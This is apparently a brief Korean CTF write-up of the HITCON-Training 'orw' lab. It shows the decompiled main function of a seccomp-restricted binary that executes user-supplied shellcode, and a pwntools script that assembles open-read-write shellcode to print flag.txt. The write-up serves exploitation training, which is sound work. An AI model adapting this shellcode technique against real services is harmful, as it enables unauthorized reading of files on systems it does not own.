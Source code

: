 ```yaml
---
title: "[HITCON-Training]Lab2"
date: 2019-11-17
ctf: HITCON-Training
layout: post
published : false
---
```


local Exploit이라 그냥 flag.txt 만들어주고 했다. seccomp가 걸려있어서 orw밖에 사용하지 못한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

근데 입력받은걸 쉘코드 실행해주니까 open -> read -> write 으로 파일 열면 된다.

```python
from pwn import *
 
e = ELF('./orw.bin')
p = process('./orw.bin')
payload = asm(shellcraft.pushstr("flag.txt"))
payload += asm(shellcraft.open('esp',0,0))
payload += asm(shellcraft.read('eax','esp',100))
payload += asm(shellcraft.write(1,'esp',100))
p.sendlineafter(':',payload)
p.interactive()
```

